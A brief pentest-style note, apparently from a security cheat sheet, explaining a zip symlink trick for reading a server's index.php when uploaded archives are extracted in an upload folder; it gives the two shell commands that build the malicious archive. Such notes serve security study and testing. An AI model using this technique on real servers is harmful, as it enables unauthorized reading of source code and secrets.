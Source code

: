 # Unzip file vuln

Imagine that we can unzip a .zip that we uploaded in /upload/id/
And we want to extract the content of index.php 

Create a symlink
	
	ln -s ../../index.php link

	zip test.zip link

